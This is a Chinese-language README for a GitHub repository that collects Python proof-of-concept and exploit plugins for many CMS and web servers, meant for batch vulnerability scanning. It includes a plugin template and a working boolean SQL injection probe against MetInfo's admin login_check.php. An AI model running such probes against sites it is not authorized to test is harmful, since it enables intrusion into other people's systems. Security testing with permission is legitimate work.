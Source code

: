 # cms_poc_exp
![](https://img.shields.io/badge/program-Python3-blue.svg)
___

## 此项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103


+ 项目说明
  - ~~本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2~~
  - ~~[ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3~~
  - `ShellFrameworkd`已更名为[PocBatch-M](https://github.com/1oid/PocBatch-M)并支持了Python3

+ 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)
  - [jetty](https://github.com/1oid/cms_poc_exp/tree/master/jetty)
  - [ecshop](https://github.com/1oid/cms_poc_exp/tree/master/ecshop)
  - [74cms](https://github.com/1oid/cms_poc_exp/tree/master/74cms)

+ 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```
调用 `Exploit().attack(url)`

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```

## 插件编写注意事项
+ 拒绝重复插件, 新增了一个`find.py`, 通过特征来搜索已存在的脚本是否含有指定特征
使用方法: 
  - 方法一: `python3 find.py cms名称 特征` 例如 `python3 find.py dedecms /install/index.php`
  - 方法二: `python3 find.py 特征` 例如 `python3 find.py /install/index.php` (如果不指定cms, 则会查找本地所有的插件)

## 本项目目前支持/贡献的人
- [1oid(作者)](https://github.com/1oid)
- [ske](https://github.com/SkewwG/)提供自己编写的插件[VulScan](https://github.com/SkewwG/VulScan)
- [LiodAir](https://github.com/LiodAir)提交分支
- [icetea1](https://github.com/icetea1) 提交新的cms和poc
